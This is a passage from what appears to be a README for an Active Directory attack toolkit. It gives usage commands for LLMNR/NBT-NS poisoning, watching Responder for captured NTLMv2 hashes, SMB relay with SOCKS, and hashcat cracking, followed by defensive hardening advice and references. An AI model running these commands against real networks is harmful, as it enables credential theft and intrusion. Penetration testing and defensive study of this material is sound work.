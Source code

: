 2. Run full auto sequence when ready:
```bash
sudo python3 toolkit.py --auto -i eth0 -dc 192.168.1.10 -d corp.local
```

3. Monitor captured hashes in Responder logs:
```bash
tail -f /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.1.10.txt
```

### Targeted Relay
1. Generate relay target list:
```bash
netexec smb 192.168.1.0/24 --gen-relay-list targets.txt
```

2. Start relay with SOCKS:
```bash
sudo python3 toolkit.py -i eth0 --relay --relay-type smb --socks
```

3. Use collected hashes with your preferred cracking tool:
```bash
hashcat -m 5600 hashes.txt wordlist.txt
```

## Defense Recommendations

To protect against these attack vectors:

1. Disable Legacy Protocols
   - LLMNR: `Get-DnsClient | Set-DnsClient -EnableMulticast $false`
   - NBT-NS: Disable NetBIOS over TCP/IP
   - WPAD: Disable automatic proxy detection
   - IPv6: If not in use

2. Enable Security Features
   - SMB Signing (Required)
   - LDAP Signing
   - Channel Binding
   - EPA for HTTP/LDAP

3. Network Segmentation
   - Implement tiered administration
   - Control broadcast domains
   - Filter RPC traffic

4. Additional Hardening
   - Disable WebDAV client service
   - Remove ADCS web enrollment
   - Disable Print Spooler where unnecessary
   - Set Machine Account Quota to 0

## References

- [The Worst of Both Worlds: NTLM Relaying and Kerberos Delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [Practical Guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
- [I'm Bringing Relaying Back - TrustedSec](https://www.trustedsec.com/blog/im-bringing-relaying-back-a-comprehensive-guide-on-relaying-anno-2022/)
